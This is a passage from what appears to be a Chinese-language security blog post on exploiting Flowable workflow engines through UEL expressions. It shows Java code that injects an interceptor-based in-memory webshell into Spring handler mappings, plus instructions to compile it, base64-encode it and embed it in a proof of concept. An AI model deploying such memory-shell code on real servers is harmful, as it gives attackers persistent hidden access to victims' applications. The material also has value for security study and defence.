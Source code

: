 ```java
                    adaptedInterceptors.add(0, new MappedInterceptor(new String[]{"/xxx"}, (String[]) null, new A12345()));
                    adaptedInterceptorsField.set(abstractHandlerMapping, adaptedInterceptors);

                    Object resourceHandlerMapping = webApplicationContext.getBean("resourceHandlerMapping");
                    if (!resourceHandlerMapping.toString().equals("null")) {
                        AbstractHandlerMapping abstractHandlerMapping1 = (AbstractHandlerMapping) resourceHandlerMapping;
                        List o = (List) adaptedInterceptorsField.get(abstractHandlerMapping1);
                        o.add(0, new MappedInterceptor(new String[]{"/xxx"}, (String[]) null, new A12345()));
                        adaptedInterceptorsField.set(abstractHandlerMapping1, o);
                    }
                }
            }
        } catch (Exception var8) {
            var8.printStackTrace();
        }
    }
}
```

剩下的就是把文件编译成class-&gt;再转成base64字符串替换到poc中即可

总结
--

flowable说到底只是个构建流程的东西，构建流程一般都是属于后台的功能，前台基本上是不存在这种功能，所以在实际的利用中还需要先进后台再进一步利用（当然有时也会遇见一些能够直接访问部署的接口）。另外，flowable支持UEL表达式是全版本的，并且官方也并不认为这是一种漏洞，所以如果开发没有做其他修改时，看到flowable基本上就等于是漏洞到手了。

参考链接
----

[Flowable BPMN 用户手册](https://tkjohn.github.io/flowable-userguide/#bpmnConstructs)  
[一些jar包相关的漏洞](https://github.com/Mechoy/jarVuln)